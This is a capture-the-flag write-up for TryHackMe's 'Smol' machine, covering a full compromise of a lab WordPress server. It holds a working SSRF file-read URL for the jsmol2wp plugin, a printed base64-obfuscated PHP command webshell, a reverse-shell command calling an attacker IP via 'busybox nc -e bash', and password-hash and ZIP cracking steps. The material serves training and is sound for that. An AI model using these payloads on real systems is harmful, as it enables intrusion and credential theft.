

# Smol - TryHackMe Writeup

**TL;DR:** WordPress Discovery → SSRF Exploit → Config Leak → Backdoor Access → Reverse Shell → Database Access → Password Cracking → User Access → SSH Key Discovery → Lateral Movement → ZIP Cracking → More Passwords → Sudo Privilege Escalation → Root Access

## Target
- Machine: `smol.thm`
- Date: 2025-5-13
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:


```bash
nmap -sV -Pn -T4 smol.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

The website at `smol.thm` redirects to `www.smol.thm`, which required adding to the `/etc/hosts` file.


### 2. Directory Discovery:

```bash
gobuster dir -u http://www.smol.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40

/wp-content           (Status: 301) [Size: 317]
/wp-includes          (Status: 301) [Size: 318]
/wp-admin             (Status: 301) [Size: 315]
```

The site is running WordPress.


### 3. WordPress Enumeration with WPScan

Basic Scan:
```bash
wpscan --url http://www.smol.thm/ 
```


User Enumeration:
```bash
wpscan --url http://www.smol.thm/ --enumerate u
```

Discoverd Users:
```bash
[+] admin
[+] think
[+] wp
[+] gege
[+] diego
[+] xavi
```


Plugin Enumeration:
```bash
wpscan --url http://www.smol.thm/ --enumerate p 
```
Vulnerable Plugin Found:
```bash
jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
```

Research revealed CVE-2018-20463 - Unauthenticated Server Side Request Forgery (SSRF) vulnerability.


### 4. SSRF Exploitation


The vulnerable endpoint format:

```txt
wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

Reading wp-config.php:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`


`wpuser` password.


After logging into WordPress, we found notes left by the webmaster:


### 5. Backdoor Discovery

Fuzzing for Backdoors:
```bash
ffuf -u "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../FUZZ" -w /usr/share/wordlists/dirb/big.txt -fs 0 --fw 1 -e .php
```


Discovered hello.php:


The backdoor contained obfuscated code:
```php
function hello_dolly() {	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Decoding the Base64:
```bash
echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA' | base64 -d

# if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }                                                          
```

The octal values decode to:
- `\143` = c 
- `\155` = m
- `\x64` = d

it's `cmd` 

Testing the backdoor:
`http://www.smol.thm/wp-admin/index.php?cmd=id`


### 6. Revese shell

Setting up listener:
```bash
nc -lnvp 4444
```

Triggering reverse shell:
```url
http://www.smol.thm/wp-admin/index.php?cmd=busybox%20nc%20YOUR_IP%204444%20-e%20bash
```

Shell Stabilization:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 7. Lateral Movement

Database Access:
```bash
mysql -u wpuser -p
Enter password: [REDACTED]
```

Extracting User Hashes:
```sql
USE wordpress;
SELECT * FROM wp_users;
```

```text
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                      
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |                                      
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |                                      
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |                                      
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |                                      
|  5 | diego      | $P$BWFBcbXdz[REDACTED]r3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |                                      
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |                                      
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                      
```

Cracking Diego's Password:
```bash
echo '$P$BWFBcbXdz[REDACTED]r3Erff4JPwv1' > hash 

#hashcat
hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt

#john
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
```




Switching to `diego`:
```bash
su diego
#Password:[REDACTED]


id
#uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
```
#### User flag

```bash
cat /home/diego/user.txt 
[REDACTED]
```

### 8. Privilege Escalation

SSH Key Discovery:
```bash
ls -la /home/think/.ssh/id_rsa
#-rwxr-xr-x 1 think think 2602 Jun 21  2023 id_rsa
```

copy the privite key to attacker machine
and connect via ssh:

```bash
chmod 600 think_id_rsa

ssh think@smol.thm -i think_id_rsa

id 
#uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
```

Lateral Movement to gege:
```bash
find / -group internal 2>/dev/null
/home/gege
/home/xavi
/home/think
/home/diego


su gege
# No password required

id
uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
```

#### WordPress Backup Analysis

Transferring the backup:
```bash
python3 -m http.server 8000

# On attacker machine:
wget http://smol.thm:8000/wordpress.old.zip
```

Cracking the ZIP password:
```bash
zip2john wordpress.old.zip > hash2

john hash2 --wordlist=/usr/share/wordlists/rockyou.txt
```

Extracting and analyzing:
```bash
unzip -P '[REDACTED]' wordpress.old.zip

cat wordpress.old/wp-config.php

#define( 'DB_PASSWORD', '[REDACTED]' );
```
Found Xavi's password.

Switching to `xavi`:
```bash
su xavi

id
#uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
```

#### Root Access
Checking sudo privileges:
```bash
sudo -l

#User xavi may run the following commands without password:
    (ALL : ALL) ALL
```

privilege escalation:
```bash
sudo su

id
#uid=0(root) gid=0(root) groups=0(root)
```

#### Root Flag:
```bash
cat /root/root.txt 
[REDACTED]
```
